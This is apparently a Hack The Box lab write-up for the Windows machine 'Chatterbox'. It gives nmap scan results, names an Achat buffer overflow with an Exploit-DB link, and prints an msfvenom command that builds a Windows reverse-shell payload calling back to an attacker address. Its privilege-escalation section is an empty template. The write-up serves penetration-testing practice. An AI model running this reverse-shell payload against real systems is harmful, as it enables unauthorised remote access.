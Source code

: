 ```yaml
---
layout: default
title: x001-Chatterbox
nav_order: 2
has_children: true
parent: htb
grand_parent: writeups
---
```

## x001-Chatterbox 

### Abstract

Windows Machine


### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.

Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.



| Server IP Adress | Ports Open |
|------------------|------------|
|     192.168.126.93      | TCP :  135,139,445,9255;9256,49152-57    |
|                  | UDP :      |



**Nmap Scan Results:**

Using  :
```sh
nmap -A -T4 -p- 10.10.10.74 -oN chatterbox.htb.nmap
```

Result :
```sh
# Nmap 7.93 scan initiated Thu Mar 16 19:32:28 2023 as: nmap -A -T4 -p- -oN chatterbox.htb.nmap 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up (0.042s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  tcpwrapped
9256/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m00s, deviation: 2h18m35s, median: 4h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-03-16T23:34:01
|_  start_date: 2023-03-16T23:21:02
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-16T19:34:02-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 16 19:34:14 2023 -- 1 IP address (1 host up) scanned in 105.93 seconds  
```

**Vulnerability Exploited:** BufferOverflow in Achat

**Vulnerability Explanation:**

Using available exploit, we were able to gain initial access to the server.

**Vulnerability Fix:** Upgrade to the latest version.

**Severity:** CRITICAL

**Proof of Concept / Code Here:**

![](/writings/docs/assets/Pasted%20image%2020230319141321.png)

![](/docs/assets/Pasted%20image%2020230319141321.png)

[Exploit DB](https://www.exploit-db.com/exploits/36025)

We generate the bytecode with the following command: 

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.56 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

And inject the output inside the python script then run it with our tcp handler waiting for a connection. 

![](/writings/docs/assets/Pasted%20image%2020230319142012.png)

![](docs/assets/Pasted%20image%2020230319142012.png)

**Local.txt Proof Screenshot**

![](docs/assets/Pasted%20image%2020230319142322.png)

![](/writings/docs/assets/Pasted%20image%2020230319142322.png)

**Local.txt Contents**

`1e488e7ce084019eebcbcb7f84889719`

### Privilege Escalation

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Proof of Concept / Code Here:**

**Proof Screenshot Here:**

**Proof.txt Contents:**


--------

### NOTES : 
